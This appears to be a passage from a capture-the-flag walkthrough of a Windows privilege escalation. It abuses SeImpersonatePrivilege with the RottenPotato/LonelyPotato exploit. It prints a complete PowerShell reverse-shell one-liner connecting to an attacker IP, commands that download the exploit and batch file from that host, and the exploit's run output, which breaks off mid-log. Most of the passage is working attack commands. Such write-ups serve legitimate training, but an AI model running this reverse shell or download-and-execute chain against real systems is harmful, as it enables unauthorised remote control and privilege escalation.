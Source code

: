     Privilege Name                Description                               State
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeAuditPrivilege              Generate security audits                  Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege       Create global objects                     Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



This means that we can likely use RottenPotato (or LonelyPotato).

First, we'll upload two files to the server. `MSFRottenPotato.exe` and
`rev.bat`. The exe is from [Decoder's GitHub
page](https://github.com/decoder-it) for
[lonelypotato](https://github.com/decoder-it/lonelypotato). The second
is a simple powershell command to get a shell:



    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',8085); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"



So, from our low priv shell, grab the files:



    PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.14:8083/rev.bat', 'C:\temp\rev.bat')
    PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.14:8083/MSFRottenPotato.exe', 'C:\temp\lp.exe')



Now, with a listener going, run it:



    PS C:\temp> c:\temp\lp.exe * \temp\rev.bat
    connect sock
    CreateIlok: 0 0
    start RPC  connection
    CreateDoc: 0 0
    COM -> bytes received: 116
    RPC -> bytes Sent: 116
    RPC -> bytes received: 84
    COM -> bytes sent: 84
    COM -> bytes received: 24
    RPC -> bytes Sent: 24
    RPC -> bytes received: 132
    COM -> bytes sent: 132
    COM -> bytes received: 127
    RPC -> bytes Sent: 127
    RPC -> bytes received: 196
    COM -> bytes sent: 196
    COM -> bytes received: 243
    RPC -> bytes Sent: 243
    RPC -> bytes received: 192
    COM -> bytes sent: 192
    COM -> bytes received: 72
    RPC -> bytes Sent: 72
    RPC -> bytes received: 60
    COM -> bytes sent: 60
    COM -> bytes received: 42